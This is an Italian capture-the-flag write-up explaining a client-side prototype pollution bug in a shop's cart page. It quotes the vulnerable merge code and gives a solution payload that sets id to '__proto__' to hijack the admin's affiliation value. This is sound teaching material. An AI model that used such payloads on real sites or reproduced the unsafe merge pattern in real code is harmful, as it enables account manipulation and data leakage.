 # Prototype Pollution negli Oggetti del Carrello

Nella pagina `/cart` si trova questo codice JavaScript:

```javascript
const cart = JSON.parse(atob(new URL(location.href).searchParams.get('cart')));

const products = {};

cart.forEach((el) => {
    const product = products[el.id] || (products[el.id] = {});

    for (const [key, value] of Object.entries(el)) {
        if (key === 'id') continue;
        product[key] = value;
    }
});

Object.values(products).forEach((product, idx) => {
    const d = document.createElement('div');
    d.innerText = product.name;
    document.querySelector('#product-list').appendChild(d);

    if (idx !== Object.values(products).length - 1) {
        document.querySelector('#product-list').appendChild(document.createElement('sl-divider'));
    }
});

orderForm.onsubmit = (e) => {
    e.preventDefault();

    fetch('/api/order', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            cart: cart,
            message: customMessage.value,
            affiliation: sessionStorage.affiliation
        })
    })
        .then((res) => res.json())
        .then((data) => {
            location.href = '/';
        })
        .catch((err) => {
            location.href = '/';
        });
};

feedbackForm.onsubmit = (e) => {
    e.preventDefault();

    fetch('/api/feedback', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({
            cart: cart,
            pow: pow.value
        })
    })
        .then(() => {
            window.location = '/';
        })
        .catch(() => {
            window.location = '/';
        });
};
```

## Analisi del Codice

Il punto più interessante è il seguente:

```javascript
const cart = JSON.parse(atob(new URL(location.href).searchParams.get('cart')));

const products = {};

cart.forEach((el) => {
    const product = products[el.id] || (products[el.id] = {});

    for (const [key, value] of Object.entries(el)) {
        if (key === 'id') continue;
        product[key] = value;
    }
});
```

Gli oggetti del carrello vengono parsati dal parametro `cart` dell'URL ed ogni oggetto dovrebbe avere questa forma (encodata in Base64): 

```json
[{"id":"67ebbd3b2f482a4adfa26a14","name":"Raspberry Pi 0"}]
```

Il codice cicla su tutti gli elementi che gli vengono mandati ed aggiunge arbitrariamente qualsiasi proprietà agli oggetti. In particolare, se un indice è presente due volte, vengono aggiunte o sovrascritte le sue proprietà. 

Il problema sta nel fatto che il controllo per verificare se l'`id` è già presente è:

```javascript
products[el.id] || (products[el.id] = {});
```

Quindi, inviando `__proto__` come `id`, il controllo dell'`id` già esistente passa, perché `__proto__` è una proprietà esistente. In questo caso, il valore di `product` diventa `products['__proto__']`. A questo punto, qualsiasi proprietà inviata verrà aggiunta a `__proto__` tramite:

```javascript
product[key] = value;
```
## Sfruttare la Vulnerabilità

Per sfruttare questa vulnerabilità, possiamo fare in modo che l'admin effettui un ordine con il nostro affiliation code (così potremo vedere il suo messaggio custom) per ottenere la flag. Per farlo, sfruttiamo la prototype pollution per sovrascrivere la proprietà `affiliation` con il valore del nostro affiliation code.

Il punto dove viene usata la proprietà affiliation è il seguente:

```javascript
fetch('/api/order', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        cart: cart,
        message: customMessage.value,
        affiliation: sessionStorage.affiliation
    })
});
```

### Soluzione

```json
[{"id": "__proto__", "affiliation": "codice affiliazione"}]
```